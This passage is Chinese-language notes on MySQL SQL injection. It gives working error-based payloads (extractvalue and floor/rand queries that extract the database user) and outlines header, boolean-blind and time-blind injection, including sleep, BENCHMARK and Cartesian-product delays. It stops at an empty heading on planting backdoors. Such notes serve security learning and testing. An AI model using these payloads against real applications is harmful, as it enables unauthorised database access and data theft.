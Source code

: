 

##### 函数报错信息注入

>  前提：后台没有屏蔽数据库报错信息，在语法发生错误时会输出到前端

常用报错函数：updatexml(), extractvalue(), floor() [十种MySQL报错注入](https://blog.csdn.net/whatday/article/details/63683187)  [【SQL注入】报错注入姿势总结](http://vinc.top/2017/03/23/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93/)

```sql
and (extractvalue(1,concat(0x7e,(select user()),0x7e)));%23
and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);%23
```

基于函数报错信息获取（select, insert, update, delete)



##### insert / update / delete 注入

结合函数报错信息，将函数插入到语句中



##### http header 注入

如 `XFF`，`referer`

观察点：后台收集了请求头中的信息，并存入到数据库中



##### 布尔盲注

结合 and 进行逻辑判断

效率太低，写脚本爆



##### 时间盲注

无显示回显，可在以前的基础上加入 `sleep()` 语句，若明显延迟，则注入成功

`BENCHMARK(count,expr)`  执行 `count` 次的 `expr`，如 BENCHMARK(10000000,SHA(‘1’))

即使 `sleep` 和 `benchmark` 都被过滤了，但是我们依然可以通过让Mysql进行复杂运算，

以达到延时的效果，比如可以用字段比较多的表来计算笛卡尔积

```sql
select count(*) 
from information_schema.columns A, 
information_schema.columns B, 
information_schema.columns C#
```

还有 `get_lock()`



##### 利用注入写入后门
